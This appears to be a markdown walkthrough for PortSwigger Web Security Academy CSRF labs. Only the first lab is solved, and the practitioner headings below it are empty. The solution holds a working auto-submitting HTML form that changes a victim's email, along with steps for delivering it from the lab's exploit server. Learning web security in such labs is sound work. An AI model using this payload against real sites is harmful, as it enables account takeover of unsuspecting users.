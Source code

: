 # Cross-site request forgery (CSRF)

## Basics

### CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF. To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server. You can log in to your own account using the following credentials: `wiener:peter` 

----

1. Log in and intercept updating email (which is vulnerable):

![Simple CSRF](../../_static/images/csrf-simple1.png)

2. To create the exploit, put the correct parameters in the template given in [Cross-site request forgery (CSRF)](https://portswigger.net/web-security/csrf):

```text
<html>
    <body>
        <form action="https://0abe00ae04c3c7a8c1a5356100cc00d2.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

3. Paste the exploit in the `body` field of the exploit server form (link to exploit server is up top):

![Simple CSRF](../../_static/images/csrf-simple2.png)

4. To verify that the exploit works, try it by clicking **View exploit**, turning intercept on again, and checking the resulting HTTP request and response. 
5. Click **Deliver to victim** to solve the lab. 

## Practitioner

### CSRF where token validation depends on request method

### CSRF where token validation depends on token being present

### CSRF where token is not tied to user session

### CSRF where token is tied to non-session cookie

### CSRF where token is duplicated in cookie

### CSRF where Referer validation depends on header being present

### CSRF with broken Referer validation